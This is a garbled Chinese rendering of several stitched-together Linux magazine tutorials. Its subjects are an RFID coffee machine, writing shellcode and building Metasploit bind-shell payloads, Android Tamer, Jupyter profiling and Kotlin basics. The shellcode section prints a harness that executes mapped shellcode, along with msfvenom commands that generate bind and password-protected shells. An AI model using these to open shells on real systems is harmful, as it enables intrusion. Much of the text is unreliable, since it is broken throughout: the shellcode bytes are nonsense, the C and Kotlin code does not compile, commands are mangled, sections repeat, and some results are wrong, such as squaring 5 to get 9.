回到需要提醒 `RFID` 读器的地方。使用跳线将 `RFID` 端子连接到 `SPI`（串行外设）接口。不需要面包板。正如在 LU18 中讨论的，`Arduino` 的 `SPI` 模块之一连接到数字引脚 11-13，如下所示：`MISO`、`MOSI`、`SCK` 和 `SS`，复位连接到 54。你还需要使用 `Arduino` 的 3.3V 连接，并将 `GND` 连接到 `Arduino` 的地引脚。

将 `RFID` 固定在板子前端并将其贴在内部。读器可以在一定距离内与其他通信，这通过纸板和塑料是可以实现的。通过金属等导电材料（电磁屏蔽）进行通信将更加困难。

如果安装得不好，你可以在框架上移动它，或者使用电机使其旋转并让 `LCD` 更新消息。剩下的工作只是是在咖啡顶部添加一个盖子，并用某种图表指示在盒子的哪个位置展示卡片。在使用你的新咖啡之前，或者在你用了一些之后，你可能想要改进设计并让机器更坚固。通过少量的工作、3D 打印或其他技术，可以制造一台坚固的机器并为你的同事服务。

如果你读过关于编写和测试 shellcode 的文章，你将使用一个 C 语言的支架（如下所示）。此代码允许你在执行时避免段错误。还有另一种方法：你可以使用 `mmap()` 将 shellcode 映射到内存页并授予其权限。这样你就可以像往常一样编译代码，它将完美地运行。

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <stdlib.h>

#define PASSWORD "secret"
#define PORT 1234

int main() {
    int server_fd, client_fd;
    struct sockaddr_in address;
    int len = sizeof(address);
    char buffer[1024] = {0};
    char *shellcode = "\x48\x31\xc0\x48\x31\xe6\x48\x31\xd2\x48\x31\xf6\x48\x31\xd5\x48\x31\xc7\x48\x31\xc9\x48\x31\db\x48\x31\xe5\x48\x31\xf4\x48\x31\xf2\x48\x31\xf1\x48\x31\xf0\x48\x31\xf7\x48\x31\xe8\x48\x31\x99\x48\x31\x5a\x48\x31\x5b\x48\x31\x5c\x48\x31\x5d\x48\x31\x5f\x48\x31\x60\x48\x31\x61\x48\x31\x62\x48\x31\x63\x48\x31\x64\x48\x31\x65\x48\x31\x66\x48\x31\x67\x48\x31\x68\x48\x31\x69\x48\x31\x6a\x48\x31\x6b\x48\x31\x6c\x48\x31\x6d\x48\x31\x6e\x48\x31\x6f\x48\x31\x70\x48\x31\x71\x48\x31\x72\x48\x31\x73\x48\x31\x74\x48\x31\x75\x48\x31\x76\x48\x31\x77\x48\x31\x78\x48\x31\x79\x48\x31\x7a\x48\x31\x00\x48\x31\x01\x48\x31\x02\x48\x31\x03\x48\x31\x04\x48\x31\x05\x48\x31\x06\x48\x31\x07\x48\x31\x08\x48\x31\x09\x48\x31\x0a\x48\x31\x0b\x48\x31\x0c\x48\x31\x0d\x48\x31\x0e\x48\x31\x0f\x48\x31\x10\x48\x31\x11\x48\x31\x12\x48\x31\x13\x48\x31\x14\x48\x31\x15\x48\x31\x16\x48\x31\x17\x48\x31\x18\x48\x31\x19\x48\x31\x1a\x48\x31\x1b\x48\x31\x1c\x48\x31\x1d\x48\x31\x1e\x48\x31\x1f\x48\x31\x20\x48\x31\x21\x48\x31\x22\x48\x31\x23\x48\x31\x24\x48\x31\x25\x48\x31\x26\x48\x31\x27\x48\x31\x28\x48\x31\x29\x48\x31\x2a\x48\x31\x2c\x48\x31\x2d\x48\x31\x2e\x48\x31\x2f\x48\x31\x30\x48\x31\x31\x48\x31\x32\x48\x31\x33\x48\x31\x34\x48\x31\x35\x48\x31\x36\x48\x31\x37\x48\x31\x38\x48\x31\x39\x48\x31\x3a\x48\x31\x3b\x48\x31\x3c\x48\x31\x3d\x48\x31\x3e\x48\x31\x3f\x48\x31\x40\x48\x31\x41\x48\x31\x42\x48\x31\x43\x48\x31\x44\x48\x31\x45\x48\x31\x46\x48\x31\x47\x48\x31\x49\x48\x31\x4a\x48\x31\x4b\x48\x31\x4c";
```

`AIPbin3` 包含以下内容。第一个文件是使用上述 `mmap()` 技术编写的 C 语言 shellcode 测试用架（harness），另外两个是待测试的 shell。如果你想测试第一个，需要使用 `-m32` 标志编译测试用架，因为它是一个 32 位的 shellcode：

```bash
gcc -m32 /testshellcodemap.c -o testshellcodemap0
```

你可以通过运行 `gcc ./testshellcodemap.c -o testshellcodemap64` 来编译 64 位的版本。一旦获取了 shellcode，就可以使用相应的测试用架：32 位使用 `testshellcodemap32`，64 位使用 `testshellcodemap64`。该 shellcode 将套接绑定到 TCP 端口 4444。你可以通过运行 `netstat -antlp | grep 4444` 来检查。注意：我在这里使用了 Metasploit 的 `--colorized` 选项。

一旦准备好 shellcode 测试用架，你就可以开始编写自己的 shellcode 了。最后，一旦运行成功，你就可以将其集成到 Metasploit 中。Metasploit 包含了许多针对各种架构的 Bind TCP shell 负载，例如 `linux/x86/shell_bind_tcp.bin64`。该负载会将套接字绑定到端口 4444 并自动执行 shellcode。你可能并不希望这样做。那么，扩展此负载以允许从任何 IP 地址连接又如何呢？

经典的 Bind TCP shell 实现了一个简单的 `connect(NULL)` 调用，这是对 `socket()` 的调用——参见 `socket_connect()`，它使用了类似示例所示的代码。这将创建一个远程 TCP 连接（参见 http://blog.list.uddev.shellcode）。这极大地简化了 shellcode，如果你的

# 图 1

```c
int fd = open(argv[1], O_RDONLY);
if (fd < 0) {
  printf("Error opening the shell-code:\n");
  exit(-1);
}
/* Get the shellcode size : */
struct stat st;
if (stat(fd, &st) != 1) {
  printf("Error performing the stat on the shellcode:\n");
  exit(-1);
}
close(fd);
/* Map it to memory: */
void *mem = mmap(NULL, st.st_size, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_AN, -1, 0);
if (mem == MAP_FAILED) {
  printf("Error mapping the shellcode to memory:\n");
  exit(-1);
}
close(fd);
/* Execute the shell-code : */
((void (*)())mem)();
close(fd);
```

使用 `mmap()` 的 @shell-code-test-harness

# 使用 -execstack 测试你的 shellcode

你需要通过 shellcode 字节的倒序排列来处理其入站网络的 IP 地址并询问它，因为比较两个 shell 负载之间的这两个值会更好。

你正在改进负载吗？你想测试一个漏洞或程序，但无法轻松搭建目标环境吗？没问题！Metasploit 编码器的漏洞

> 你可以使用 `mmap()` 来摆脱 `-execstack` shellcode-payload

它，你将使用以这种方式实现的 `connect()` 汇编代码。但请记住，0 的实际值，一个持有要使用值的通用寄存器将设置为 `eax`：

```assembly
| PUSH 0 ; addrlen
| PUSH 0 ; sockaddr
| PUSH socket ; socket
```

如果你只想从给定的 IP 地址连接，你将不得不修改 shellcode 以进行 `connect()`。这无疑会增加负载的大小。当然，不再使用两个 NULL 值，你需要在栈内留出足够的空间来存放 `struct sockaddr*` 指针和：

```assembly
SUB ESP, 24
MOV EDI, esp
PUSH 16
```

接下来，将 `sockaddr_in` 结构推入栈的下一层（16 字节），使 `EDI` 寄存器指向它（第 77-78 行）：

根据 `connect()` 手页，你必须在调用 `connect()` 之前从 shellcode 初始化 `sockaddr_in` 的值——参见下例。你不应该像经典的 Bind TCP 方法那样连续推入两个 NULL，而应该将这些地址推入栈（第 80-82 行）。在调用 `connect()` 之后从栈中弹出地址，以及第 90-94 行。IP 地址 (`struct in_addr sin_addr`）位于偏移量 22 处：

```assembly
PUSH 0x0102a8bc; ;192.168.1.1
```

http://list.uddev.shell/ 带有大量 JSON 代码模拟漏洞。

www.linuxuser.co.uk 45

# Metasploit 计算机教程

图 2 linux/x86/meterpreter/tcp_handler.jmp LPORT=4444 LHOST=192.168.1.35 -elf -o m

已选择架构，正在检查负载的 May:Platform:Linux

未选择架构，从模块中选择 x86

在调试器中运行 shellcode。汇编器

输出：匹配负载的输出

负载大小：215 字节

```
LID = ?
LID = 1920 - meterpreter/tcp_bind
LHOSTIP = 192.168.1.35
LPORT = 4444
```

```
ID = 1920 - meterpreter/tcp_bind
* 192.168.1.35:4444
* 0.0.0.0:0
** 4444
```

bin32. 使用你的测试 shellcode：

./testshellcodemap32 BINDTC_IP.bin32

运行 ncat 连接到网络 IP 和端口看看发生了什么：nc <YOUR_IP> <PORT>。如果你的 IP 地址与 shellcode 中硬编码的不同，这是可选的，但

## 将 shellcode 集成到 Metasploit

代码中的客户端地址需要更新。

两个地址不相，shellcode

触发 "END" 并

更改你的模块到本地

更改你的模块到本地

Metasploit 从模块

路径重新加载所有模块（你可以在 msconsole 配置文件中执行，

无需退出控制台：msconsole - "load,

all;"

```bash
msfvenom -p linux/x86/shell_bind_tcp_ip -LPORT=4444 AHOST=192.168.1.1 -f elf -o exploit
msfploit
```

感谢于这个框架，你可以使用不同的格式和编码器：


```bash
msfvenom -p linux/x86/shell_bind_tcp_ip -LPORT=4444 AHOST=192.168.1.1 -f elf -o sh_ikata_gaga.elf
```

不需要将此工具添加到我们正在用 Perl 编写的漏洞中。不需要；shell 是完美的，你已经准备就绪。原始版本长度只有 78 字节。当然，你想要较小的有效负载，所以花时间将其尽可能减小。只需使用框架-smaller 进行测试即可；越小越好！

现在想象你想集成一个 x86_shell。这要求在框架资源集（Framework Set Resources）中，shell 进程之后紧跟一个字符密码。对于这个有效负载，我们需要两个变量：用于监听套接字的 `LPORT`，以及网络名称：以十六进制值（`0xc4`）终止的字符字符串。你可以从 codver（`BindTCP_shellcode`，`BindTCP_Passwordcode`）获取原始代码，然后分配并使用你的框架进行测试：`BindTCP_Password.x64 -a=BindTCP_Password.x64/BindTCP_shellcode.x64`。默认情况下，它将设置端口 4444 和密码 123456。如果不是，使用 `<LPORT=4444>` 负载将返回一个提示符。尝试执行任何有效的 shell 命令。如果你输入密码，shell 就会结束 - 额，没有办法可以优雅地退出；我们使用第 118-119 行。是时候将其集成到 Metploit 了。

你已经完成了这些：`POC_Bind_TCP`，`shellcode_Password_bind_tcp`，codver 密码（见**图 2**）。将此复制到你的本地。首先，创建 x64 目录 `dir=/tmp/shellcode_linux/dir/x64`。然后使用以下命令构建最终有效负载：

```bash
shell_bind_tcp_password -a=/msf4/modules/linux/x86/shell/x64
run msfconsole -f "exploit:all"
```

你现在有了一个有效负载，用它来验证操作码并使用 `OFFSET`。如果我们生成了构建最终有效负载的函数（第 37-41 行）。首先，我们向用户请求密码，如果未提供，我们设置一个默认值 123456（端口 4444）。密码长度限制必须与字节数相等，然后我们擦除另一个（第 43-45 行）。我们使用 Ruby 进行解密：`http://github.com/ruby/Array/pack` 将有效负载加密为网络字节序的值，或通过我们 shell 的操作码（`BindTCP_Password.code`），确保它“将被替换”（第 65 行）。注意右侧的十六进制终止符（`0xc4`）。我们已经在变量值 123456 中注册了新密码。

## 向我们的本地目录添加模块时，Metploit 需要重新加载所有模块

## 接下来做什么？

### 驯服你的 Android 设备

### 安装 Android

处理 Android 安全会变得容易一个级别。从 http://bit.ly/AndroidG 获取适用于 Android 安全专业的虚拟/平台，并选择 Import Android 进行安装。

### 2 环顾

系统启动后，查看左侧标记为 `TAMER` 的菜单；大多数用于 Android 安全的工具都在下方的章节中。例如静态取证等。我们使用 http://bit.ly/tamer。

### 3 APK 静态分析

开启新线程并运行 robf。Mobile Framework Service 将自动启动。导航到使用静态分析和动态分析来分析 apk。等待直到：

```bash
msfvenom -p linux/x86/shell_bind_tcp_password -LPORT=4444 PASSWORD=LUD192! -f -o msfploit
```

执行它：`msfconsole`。使用 netcat 连接到端口 8080，并输入从 Rc 返回的密码：http://bit.ly/tamer。执行相同的操作，但这次输入任何内容，如果提供了密码，负载将优雅地结束 shell，或者通过远程连接完全结束。如果使用你的测试框架，一旦它正常工作，请直接在 Metploit 模块中替换操作码。


### 4 设置 Android 模拟器

在左侧菜单中点击 `TAMER` > `Android Manager` 并创建一个新的 Android 模拟器；选择要创建的模型和 Android 版本。开始运行模拟器。与设备进行交互。

### 5 轻松反编译 APKs

打开新终端并运行 `apk2java`：你将获得反编译的 SMALI 和 Java 代码、Jad 和 Jax，以及用于提取的原始文件和 apk。

www.linuxuser.co.uk

47

# Python: Jupyter Notebooks

### Jupyter Notebooks: 加速你的代码

学习如何使用可用工具榨出你代码的每一分性能。

作为开源社区中一种突出的语言，Python 在代码开发方面有许多选择。从早期的实验到像 PyCharm 这样的完整 IDE 一应俱有。许多人在编码需求方面实际上发现自己处于这两个极端之间。这正是 Jupyter Notebooks 在数据科学和学科中具有真正优势的地方。

第一步是确保你安装了最新版本的 Jupyter。Jupyter 处于不断开发中，因此始终有新工具可用。你需要安装 Python 和 pip。假设你已经安装了它们并通过以下命令获取了最新版本的 Jupyter：

```bash
pip install --upgrade jupyter
```

这将将最新版本的 Jupyter 及其依赖项安装到系统的用户站点库中。

### 启动 Jupyter

运行 Jupyter 时有很多选项。它提供了很多选项，你可能想要深入了解细节。你可以通过以下命令查看所有可用选项：

```bash
Jupyter notebook --help-all | less
```

你将看到几页可用选项。



在 Jupyter Notebooks 之上有一种非常流行的使用方式：

```bash
Jupyter notebook --browser
```

这将让你能够控制 Jupyter 服务器进程的几乎每个方面。对于本文的其余部分，我们假设你在运行浏览器的同一台机器上运行 Jupyter。借此，你可以通过以下选项启动 Jupyter：

对于许多情况，这将运行得良好。如果你没有获得所需的性能，可以使用一些选项来帮助调优服务器。例如、`NotebookApp`、`jupyter notebook --port=8888` 以及最大输出数据速率。还有选项允许你更改后端中用于特定对象的类。调优需要一些实验，以便连接到你的浏览器。



除了键盘快捷键，底层 IPython 还有“魔法命令”

### Jupyter 快捷键

在 Notebook 中，有命令模式和编辑模式。按 `E` 进入编辑模式。你可以使用方向键导航单元，还可以创建新单元、更改类型或删除单元。在编辑模式下——即你编写的地方——按下 `Shift+Tab` 会弹出当前使用的对象的文档字符串。

### 运行基准测试

在进行所有优化之前，第一步需要进行基准测试。这是因为人类非常不擅判断代码的哪些部分真正需要优化。你应该查看会话中存在哪些部分。使用 `%ls` 命令查看创建内容的列表，你可以通过 `%info` 命令深入了解对象的细节。

更有趣的是测量代码执行时间的魔法命令。这确实是许多使用 Jupyter 人的重点。你可以使用 `%time` 和 `%timeit` 命令来计时执行单行代码的时间。第一个命令给你一个基础的视觉显示，但你可以指定参数，例如重复代码的次数。例如，在我的系统上对 Benchmark 显示：

```
# In math import exp
%timeit exp(log(part(1)))
1.26 μs ± 3.45 ns per loop (7 次运行的平均值 ± 标准差，每次10000 次循环)
```

这在日常使用中并不常见，然而更可能的情况是你有一整块代码需要计时。在这种情况下，问题应该是

如果你需要更多速度，可以在 Jupyter Notebook 中使用 Python。它已经安装好了，你可以通过 `%load ext` 对你的代码进行更多控制。

然后你就得到了魔法命令，`%cython`、`%python_inline` 和 `%python_import` 来帮助加速你的 Notebooks。

# Python: Jupyter Notebooks

被放在单个单元格中。然后你可以使用 `%%` 魔法命令来了解整个代码块的行为。

虽然这对于让你直观了解代码中某些部分花费的时间可能足够了，但你可能需要将其进一步拆分。这时，你需要在函数定义内部对 Savage Benchmark 进行性能分析（profiler），使用以下命令查看哪些是最耗资源的部分：

现在你已经知道哪些代码需要处理，你应该首先关注什么呢？除非你学习 Python 是你的第一门语言，并且是从一位非常出色的 Python 高手那里学习，否则你将继承来自其他语言的思维和技术，这些技术在 Python 中并不适用。

## Pythonic（Python 风格）

顺便一下，后者的定义也包括我自己，因此在没有确定其符合你的情况之前，不要把任何内容视为真理。在本节中，我们将查看某些领域

```python
%%prun_func(100)
```

这会返回代码每个部分花费时间的分解。前几行提供了一个如图 1 所示的示例。如果你需要更多细节，请安装 `_profiler module_` 并在 Jupyter Notebook 中使用它。

此外，尽管你正在尝试解决代码执行时内存耗尽的令人疼的问题。为了帮助这个问题，你可以在代码中使用一个内存模块。如果你还没有安装它，可以直接从你的笔记本中安装。

> 有时，问题在于代码执行时可用内存耗尽的令人疼的问题

```bash
!pip install --user memory_profiler
```

一旦安装完成，你可以使用以下命令运行它：

```python
%load_ext memory_profiler
```

你可以配合你的代码运行它：

```python
%%prun -mem_func
```

此命令会追踪给定的函数以及每行代码执行后使用了多少内存；输出示例请参见图 2。你可以识别出哪些行占用空间最大，并查看你可以做什么来处理内存使用，从而通过让代码更 Pythonic 来获得一些收益。首先，让我们看看一个场景，你可能创建了一个初始整数列表作为起始点。在许多问题中，例如，你可能需要创建一个整数列表，以下是很好的处理方法：

```python
a = []
for i in range(10000):
    a.append(0)
```

起初看起来是这样的。但实现相同结果的更 Pythonic 的方法是使用代码：

```python
a = [0] * 10000
```

这不仅更快、更清晰，而且当你使用 `%time` 魔法命令时，它还会显示其耗时。第二个示例是你想拼接字符串而不是列表时。假设你有一个字母列表，你可以通过代码将它们拼接：

```python
s = ''
for let in letters:
    s += let
```

再次，考虑到 Python 的解释方式，这实际上更快。下面的代码运行得越来越快：

## 图 2

运行 **time** 显示该版本快了 5-6 倍。最后一个示例是你正在一个集合中搜索它时。如果你有一个列表，可以使用以下方式搜索：

```python
for let in letters
```

另一方面，你可以将列表转换为集合（`set`）并执行相同的操作：

```python
list_set = set(letters)
for let in list_set
```

使用集合的版本比列表版本快五倍。这是因为对两种类型对象的比较。在示例中，Python 需要比较每个值。而使用集合时会创建一个哈希值（`hash`）并进行比较。这第二种方法要快得多。

## 使用 NumPy

如果你在 Python 中尽可能快地运行代码，这仍然会导致程序运行缓慢。在处理现有的多态函数和运算符时，Python 会花费大量的开销时间来检查使用哪个版本的函数或运算符。例如，NumPy 可以加快这些代码块的速度。如果你关心这类问题，解决方案是通过跳过 Python 的特性来完全优化它。如果还没有安装，你可以通过以下命令安装 NumPy：

```bash
pip install --user numpy
```

你可以导入并使用它。一个示例是缩放一个向量。使用 NumPy，你可以这样做：

```python
a = range(1000000)
for i in a:
    r.append(i**2)
```

使用 NumPy 简化：

```python
b = np.arange(1000000)
s = b**2
```

再次，NumPy 版本短得多，但仍然比 Python 版本快五倍。为什么？在 Python 中，一个列表可以包含所有类型的对象，这就是为什么 Python 解释器需要检查每个元素是否适用于所的操作。而在 NumPy 中，数组只需要检查一次操作操作，并且几个复杂的函数被移动到了 C 库中。通过这种方式，像矩阵乘法或求解方程组可以由高效的 C 代码处理。另一个关于 NumPy 加速的示例是，假设你有其他函数需要应用到一系列数据元素。你可以使用 `map` 函数来获得加速。例如，你可以计算整个列表的目标值：

```python
result = np.tan(a)
```

这比通过遍历列表尝试相同的操作要快一点。

## 接下来做什么？

正如你所看到的，Python 具有这种速度的原因经常被忽视；许多程序是因为没有以 Pythonic 的方式使用 Python。编写你的代码以使用最适合的工具几乎可以提高速度。即使你已经获得了足够的加速，也可以使用额外的模块（如 NumPy）来绕过开销较大的 Python 特性。确实，这只是在 Jupyter Notebooks 中可以获得更多内容的起点。

# 你好，世界！

对于你的 Kotlin 代码来说，使用 Eclipse IDE 的一大优势是它可以让你非常方便地混合 Kotlin 和 Java 代码。

# 2. 下载命令行编译器

如果你不想使用 IDE，可以下载 Kotlin 命令行编译器。首先，检查你发行版的包管理器，查看是否有可以安装的 Kotlin 软件包。这是最好的方法，因为你的包管理器会为你管理它。

如果没有可用的 Kotlin 软件包，你可以使用第三方包管理器 SDKMAN!。你可以通过以下命令在你的系统上安装 SDKMAN!：

```bash
$ curl -s https://get.sdkman.io | bash
```

然后，你可以按照以下方式安装 Kotlin 环境：

- `sdk install kotlin`

最后，如果你想手动安装 Kotlin，可以从 https://github.com/JetBrains/kotlin/release/ 获取代码，然后按照 `README.md` 中的指令进行编译和安装。
或者，你可以在你的系统上使用 `kotlin` 和 `kotinc` 可执行文件安装 Kotlin。你可以通过运行以下命令来检查它们：

```bash
$ kotlin -version
$ kotinc -version
```

现在我们展示如何创建一个 Kotlin 程序。创建一个名为 `Hello.kt` 的文件，并将图 1 中的代码复制到其中。然后我们可以按照如下方式编译并运行这段代码：

```bash
$ kotinc Hello.kt -include-runtime -d Hello.jar
$ java -jar Hello.jar
Hello, world!
```

另一种，如果你不想使用编译器来运行我们的代码，并安装某些带有 JVM 的东西，我们可以将代码编译为 .jar 文件。

# 3. 使用 Kotlin Snap-in 安装

假设你已经安装了 snap，可以运行以下命令在你的系统上安装 Kotlin：

```bash
$ sudo snap install --kotlin
```

你可以遵循上一节中的指令操作：

```kotlin
fun main(args: Array<String>) {
    println("Hello, world!")
}
```

“Kotlin 的‘Hello world 比 Java 更简洁’，因为 Kotlin 函数没有类成员，并且可以编译并运行你的代码。” 另一个选项是，如果你想在不向系统上安装任何东西的情况下尝试 Kotlin，可以是：https://try.kotlin.org，你可以在那里找到一个在线解释器，可以用它来尝试本文中的示例。

该页面还包含许多示例和练习。我强烈建议你在进行这些解构的同时，编写你自己的 Kotlin 代码。

# Kotlin 中的类和属性

与 Java 不同，Kotlin 不要求每个函数都必须某个类的成员；就像 C++ 一样，允许（静态）函数存在于类之外。尽管如此，类仍然 Kotlin 程序的重要构建块。

> IntelliJ 是 JetBrains 开发的，他们也是 Kotlin 背后的公司，所以如果你有机会的话，我们推荐使用 IntelliJ

我们可以使用 `class` 关键字声明简单的类：

```kotlin
class Greeting {
    fun greeting() {
        println("Hello, world!")
    }
}
```


# Kotlin 教程：简介

`fun` 关键字用于“function”（函数），当你在 Kotlin 中定义函数时，我们通过将它们的声明放在类内部来定义成员函数，如下所示。

```kotlin
class Greeting {
    fun greeting() {
        println("Hello, world!")
    }
}
```

注意类声明的第一行兼作构造函数。`Greeting` 的构造函数不接受任何参数，我们可以通过调用 `Greeting()` 创建类的新实例。我们添加了一个 `main` 函数以便我们可以运行程序：

```kotlin
fun main(args: Array<String>) {
    Greeting().greeting()
}
```

你应该将此函数放在 `Greeting` 声明之外。我们可以通过以下方式编译并运行它：

```bash
$ java Greeting
Hello, world!
```

## 使用类属性

特殊函数每次都打印相同的问候语，我们可能想向 `Greeting` 类的构造函数传递一个值。我们可以通过以下方式实现：

```kotlin
class Greeting(val name: String) {
    fun greeting() {
        print(name)
    }
}
```

当我们创建一个 `Greeting` 对象时，我们需要向构造函数传递一个字符串：
- `Greeting("Welcome to Kotlin!").greet()`

除了成员之外，Kotlin 类还可以有属性。属性（Property）是 Java 中概念的泛化：它是一个可以被读取和写入的值。

在 Java 中，如果你写一个字段（field），通常会将其声明为私有，如下所示：

```java
private String name;
```

我们编写方法来获取字段的值：

```java
public String getName() {
    return name;
}
```

以及设置字段的值：

```java
public void setName(String name) {
    this.name = name;
}
```

这引入了大量的样板代码。相比之下，在 Kotlin 中，类的属性始终可用。例如，上述 Java 的 Kotlin 版本要简洁得多：

```kotlin
class NamedThing(name: String) {
    var name = name
}
```

属性使用 `val` 或 `var` 关键字声明。`val` 意味着属性只能读取不可写入，而 `var` 意味着属性可读可写。注意，属性可以通过更改它们的值来改变；它们在构造函数中被赋值。

上述代码的更短版本是：

```kotlin
class NamedThing(var name: String)
```

在这里，在参数名称之前使用 `var` 即可声明属性。

与 Java 不同，Kotlin 不要求每个函数都是某个类的成员；就像 C++ 一样，允许（静态）函数存在于类之外。尽管如此，类仍然是 Kotlin 程序的重要构建块。

> IntelliJ 是 JetBrains 开发的，他们也是 Kotlin 背后的公司，所以如果你有机会的话，我们推荐使用 IntelliJ。

# 教程

## Kotlin：从 Java 到 Kotlin 简介

Java 和 Kotlin 之间存在紧密的对应关系。代码要简洁得多。有很多工具可以将 Java 转换为 Kotlin。https://kotlin.org 提供了一个内置在 IntelliJ 中的转换器。Java 到 Kotlin 的转换也可以作为 Eclipse 插件使用。在 IntelliJ 中，你可以将代码复制并粘贴到 Kotlin 缓冲区中，它会自动转换。

此函数接收两个函数作为参数；其中 `f` 是一个接收整数并返回整数的函数，而另一个 `g` 是一个接收参数且没有返回类型的函数（`Unit` 是 Kotlin 对应 Java 的 `void`）。`doingString` 调用 `f` 打印答案，然后调用 `g` 退出。我们可以使用以下代码使用此函数：

```kotlin
fun main(args: Array<String>) {
    doingString(m, { n -> m + 500 * n })
    println("Finished!")
}
```

输出应该像这样：

```
应用于 2 和 3 的函数结果是 1502。
```

这个示例展示了我们如何使用 Kotlin 的 lambda 创建特定类型的匿名函数。lambda 的类型（即 `m -> m + 500 * n`）是从 Java 8 推断出来的。你可能注意到 Kotlin 中只有有一行代码，而在 Java 8 中，如果最后一个参数是函数，那么 lambda 表达式本身可以放在圆括号外面，就像我们在这里所做的那样；尽管我们本可以写那种代码。

上述网站 https://kotlin.org 提供了一个实用的 Java-Kotlin 转换器。你也可以使用 IDE 中的功能。

```kotlin
fun square(x: Int) {
    return x * x
}
```

我们还有一种可以使用的简写。在 Kotlin 中，如果一个函数接收单个参数，我们可以写一个使用关键字 `it` 引用该参数的 lambda。

```kotlin
fun applyWith(it: Int, f: (Int) -> Int) {
    return f(it)
}

fun main(args: Array<String>) {
    println(applyWith(5) { it * it })
}
```

这段代码应用了 `it * it` —— 即对参数进行平方运算，结果为 9。`it * it` 是 `n -> n * n` 的快捷方式。它简单易读易理解。

许多集合库使用 map 样式。例如，Kotlin 中任何数组的 `map` 都会转换一个函数并返回数组的新元素。例如，我们运行这个：

```kotlin
fun square(x: Int): Int {
    return x * x
}
```

对于更复杂的情况，通常接受的风格是将函数体放在定义旁边的括号中，这样我们就可以写成：

```kotlin
val valueOne = 1.5
val stars = valueOne.map { repeat(it) }
```

值 `stars` 被数组 `*, **, ***, ****, *****` 填充了。

```kotlin
fun main(args: Array<String>) {
    var namedName = "Juan"
    println(namedName.name)
    namedName.name = "gomes"
}
```

## 向类添加函数

Kotlin 的一个有用特性是它允许我们扩展现有类并获取新方法。在这种情况下，我们必须在函数声明中附加类名。可以通过这种方式：例如，我们可能会为 `Int` 类添加一个可以用于计数数字的方法。

```kotlin
fun Int.cube() = this * this * this
```

## 空安全

Kotlin 的一个有用特性是空安全。在包括 Java 在内的许多语言中，变量可以取一个特殊值，表示它们可能为空。这很容易导致错误，特别是尝试在空对象上调用方法会抛出异常。然而，语言已经进化出许多规避此的方法，Kotlin 就是其中一种，使得代码安全得多。

默认情况下，Kotlin 中的变量不能为空。如果你想让一个变量可空，必须在原始类型后添加一个问号。例如，在 Kotlin 中 `var x: Int? = null` 是允许的，但 `var y: Int = null` 受到额外的限制：你不能在它上调用方法，除非你使用一个语句来检查它不等于 null。

另一种方法是使用 `?.` 运算符，它允许我们在不先检查的情况下在空对象上调用方法。如果对象为空，表达式返回 null。这简化了代码：如果我们有一个变量 `a: String?`，那么我们只需要使用 `a?.length()` 而不是在每一步检查 null。

查看 Kotlin 文档以获取更多空安全技巧，包括 `?:` 运算符。

```kotlin
fun build(build: StringBuilder) -> String {
    val string = StringBuilder()
    build.build()
    return string.toString()
}
```

```kotlin
val string = StringBuilder()
for (i in 1..10) {
    string.append("$i")
}
```

Kotlin 允许我们扩展现有类并获取新方法。在这种情况下，我们必须在函数声明中附加类名。可以通过这种方式完成：例如，我们可能会为 `Int` 类添加一个可以用于计数数字的方法。

```kotlin
fun Int.cube() = this * this * this
```


## 空安全

Kotlin 的一个有用特性是空安全。在包括 Java 在内的许多语言中，变量可以取一个特殊值，表示它们可能为空。这很容易导致错误，特别是尝试在空对象上调用方法会抛出异常。然而，语言已经进化出许多规避此问题的方法，Kotlin 就是其中一种，使得代码安全得多。

默认情况下，Kotlin 中的变量不能为空。如果你想让一个变量可空，必须在原始类型后添加一个问号。例如，在 Kotlin 中 `var x: Int? = null` 是允许的，但 `var y: Int = null` 受到额外的限制：你不能在它上调用方法，除非你使用一个语句来检查它不等于 null。

另一种方法是使用 `?.` 运算符，它允许我们在不先检查的情况下在空对象上调用方法。如果对象为空，表达式返回 null。这简化了代码：如果我们有一个变量 `a: String?`，那么我们只需要使用 `a?.length()` 而不是在每一步检查 null。

查看 Kotlin 文档以获取更多空安全技巧，包括 `?:` 运算符。如果这看起来不可通，把头向左转...


```kotlin
fun build(build: StringBuilder) -> String {
    val string = StringBuilder()
    build.build()
    return string.toString()
}
```

```kotlin
val string = StringBuilder()
for (i in 1..10) {
    string.append("$i")
}
```

## 不计算

计算机可能并没有我们想象的那么全能。Mike Bedford 揭示了它们无法做的事情。

## 概览

- 停机问题：艾兰·图灵的停机问题是最著名的不可计算问题。
- 更多问题：逻辑、数学之外许多问题也是不可计算的。
- 不可计算的数字：大多数数字永远无法计算。
- 超计算：超计算机接近实用，它们可以解决不可计算问题。


